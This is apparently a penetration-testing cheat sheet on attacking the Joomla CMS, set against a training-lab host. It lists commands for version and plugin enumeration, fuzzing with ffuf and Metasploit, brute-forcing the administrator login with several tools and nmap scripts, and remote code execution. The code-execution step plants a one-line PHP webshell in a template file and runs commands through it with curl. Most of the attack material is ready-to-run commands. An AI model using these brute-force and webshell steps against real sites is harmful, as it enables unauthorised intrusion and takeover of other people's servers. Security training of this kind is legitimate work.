


# Joomla

[Joomla](https://github.com/joomla) is a popular open-source CMS designed to create and manage websites efficiently. It offers a flexible framework that supports a wide range of websites, from simple blogs to complex corporate portals. Joomla is **built with PHP** and **uses a MySQL database** to store content, making it widely compatible with common web hosting environments. Its modular architecture allows easy extension through plugins, components, and templates, enabling customization to fit specific needs. Joomla can be easily identified by its favicon:

<figure><figcaption></figcaption></figure>

Joomla's has the following user roles:

<table><thead><tr><th width="248" align="right">User</th><th>Description</th></tr></thead><tbody><tr><td align="right"><code>Super Users</code>/<code>Administrator</code></td><td>Access to administrative features (adding, deleting users and posts, editing source code)</td></tr><tr><td align="right"><code>Administrator</code></td><td>Admin functions except global options</td></tr><tr><td align="right"><code>Manager</code></td><td>Content creation and backend system info</td></tr></tbody></table>

## Enumeration



```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```



```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

In certain installs, we may be able to discover the version from other dirs or JS files:


```bash
curl -s http://dev.inlanefreight.local/language/en-GB/en-GB.xml | xmllint --format -

curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

# Version enumeration via JS files
curl -s http://dev.inlanefreight.local/media/system/js

# Plugins might helps us estimate the version
curl -s http://dev.inlanefreight.local/plugins/system/cache/cache.xml | xmllint --format -
```




[`droopescan`](https://github.com/SamJoan/droopescan) is a plugin-based scanner designed mostly for SilverStripe, WordPress, and Drupal, but it has some functionality for Joomla and Moodle as well:


```bash
droopescan scan joomla --url http://dev.inlanefreight.local/
```




[`joomlascan`](https://github.com/drego85/JoomlaScan) is an open source software that finds the components installed in Joomla CMS:

```bash
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```



## Attacks <a href="#attacking_joomla" id="attacking_joomla"></a>

### Fuzzing



Fuzzing can be used for further directory, plugin, and theme enumeration ([joomla.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/joomla.txt)):


```bash
# Fuzzing for plugins
$ ffuf -u http://dev.inlanefreight.local/FUZZ -w usr/share/wordlists/joomla/joomla.txt -c -ac
```




The MSF's module [`joomla_plugins`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla_plugins/) can be used to enumerate plugins:

```bash
msf > use auxiliary/scanner/http/joomla_plugins
msf auxiliary(joomla_plugins) > show actions
        ...actions...
msf auxiliary(joomla_plugins) > set ACTION < action-name >
msf auxiliary(joomla_plugins) > show options
        ...show and set options...
msf auxiliary(joomla_plugins) > run
```



### BFA <a href="#joomla-bruteforce" id="joomla-bruteforce"></a>


Joomla `3.2` stable release bought 2FA as part of the core install which adds another challenge to BFAs. However, this isn't enabled by default.


The default administrator account is `admin` and the password is set at install time:



MSF's [`joomla_bruteforce_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla_bruteforce_login/) module can be used for a BFA:

```bash
msf > use auxiliary/scanner/http/joomla_bruteforce_login
msf auxiliary(joomla_bruteforce_login) > show actions
        ...actions...
msf auxiliary(joomla_bruteforce_login) > set ACTION < action-name >
msf auxiliary(joomla_bruteforce_login) > show options
        ...show and set options...
msf auxiliary(joomla_bruteforce_login) > run
```



[`joombrutev2`](https://github.com/CSpanias/JoomBrutev2) is the Python3 version of the original [`joombrute`](https://github.com/0rbz/JoomBrute):


```bash
# joobrutev2
python3 joombrutev2.py --url http://target/administrator --username admin --wordlist passwords.txt

# joombrute
python joombrute.py --url http://site/administrator --username admin --wordlist passwords.txt
```




[`joomla-brute`](https://github.com/ajnik/joomla-bruteforce) is Joomla login bruteforcer:


```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```




`nmap` has a [Joomla-specific NSE](https://nmap.org/nsedoc/scripts/http-joomla-brute.html) as well as a [general one](https://nmap.org/nsedoc/scripts/http-form-brute.html) for BFA against HTTP forms:


```bash
# Basic usage of the Joomla-specific NSE
nmap -sV --script http-joomla-brute <target>

# Custom usage of the Joomla-specific NSE
nmap -sV --script http-joomla-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-joomla-brute.hostname=domain.com, http-joomla-brute.threads=3,brute.firstonly=true' <target>

# General NSE script
nmap --script http-form-brute -p 80 <host>
```




### RCE <a href="#code_execution" id="code_execution"></a>

We can upload a webshell as by editing a template (e.g. `error.php`) and adding a PHP webshell:

```php
# Webshell payload
system($_GET['c']);
```

<figure><figcaption></figcaption></figure>


```bash
# Interact with the webshell
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?c=id
```


### Vulnerabilities <a href="#known_vulnerabilities_examples" id="known_vulnerabilities_examples"></a>

There is a [live vunlerable extensions list.](https://extensions.joomla.org/vulnerable-extensions/vulnerable/)
